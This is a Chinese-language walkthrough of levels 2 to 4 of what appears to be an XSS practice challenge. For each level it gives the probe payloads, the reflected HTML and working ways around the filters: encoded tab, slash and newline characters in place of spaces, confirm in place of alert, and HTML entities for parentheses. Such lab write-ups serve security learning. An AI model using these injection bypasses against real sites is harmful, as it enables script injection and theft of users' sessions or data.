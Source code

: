 ### Level 2

**思路**  
照例先使用`<svg/onload=alert(1)>`来探测一下，查看页面源码如下：
```html
<form action=# method="get">
<input type="text" name="email" value="<svg/onload=alert(1)&gt;"><input type="submit" value="Subscribe!">
</form>

Thank you for subscription!<br>
Email <b>&lt;svg/onload=alert(1)></b> added to mailing list!
```
可以看到，在`<input>`中，`>`被实体化编码，在`Email`部分，`<`被实体化编码。因此，这两个部分无法直接注入HTML标签。尝试使用上面
Level1的payload，顺利弹窗。。。

### Level 3

**思路**  
这次就不磨叽了，直接使用Level2的代码来探测，结果如下：
```html
<form action=# method="get">
<input type="text" name="email" value=""-autofocus=""-onfocus="alert(document.domain)"><input type="submit" value="Subscribe!"></form>

Thank you for subscription!<br>
Email <b>" autofocus="" onfocus="alert(document.domain)</b> added to mailing list!
```
可以看到，注入代码中的空格被替换成了`-`，导致注入后的HTML代码不可用。这说明在服务器一侧，对HTML的filler做了过滤。绕过的方式有如下
几种：
1. 使用TAB代替空格，并做URL编码: `"%09autofocus=""%09onfocus="alert(document.domain)`，成功弹窗
2. 使用`/`代替空格：`"/autofocus=""/onfocus="alert(document.domain)`，成功弹窗
3. 使用回车代替空格，并做URL编码：`"%0aautofocus=""%0aonfocus="alert(document.domain)`，成功弹窗
4. 使用换行代替空格，并做URL编码：`"%0dautofocus=""%0donfocus="alert(document.domain)`，成功弹窗
5. 使用`/~/`代替空格，并做URL编码：`"/~/autofocus=""/~/onfocus="alert(document.domain)`，成功弹窗

### Level 4

**思路**  
还是使用Level2的代码`" autofocus="" onfocus="alert(document.domain)`来探测，结果如下：
```html
<form action=# method="get">
<input type="text" name="email" value="" autofocus="" onfocus="Alertdocument.domain"><input type="submit" value="Subscribe!"></form>

Thank you for subscription!<br>
Email <b>" autofocus="" onfocus="alert(document.domain)</b> added to mailing list!
```
可以看到，`alert(document.domain)`被替换成了`Alertdocument.domain`，说明`alert`函数已经被后端检测和处理了，尝试下`confirm`，
结果如下：
```html
<form action=# method="get">
<input type="text" name="email" value="" autofocus="" onfocus="confirmdocument.domain"><input type="submit" value="Subscribe!"></form>

Thank you for subscription!<br>
Email <b>" autofocus="" onfocus="confirm(document.domain)</b> added to mailing list!
```
`confirm`函数未被过滤，但是`(`和`)`却被过滤了。考虑使用HTML Entities Enconding来绕过，顺利弹窗：
```html
" autofocus="" onfocus="confirm&#40;document.domain&#41;
```
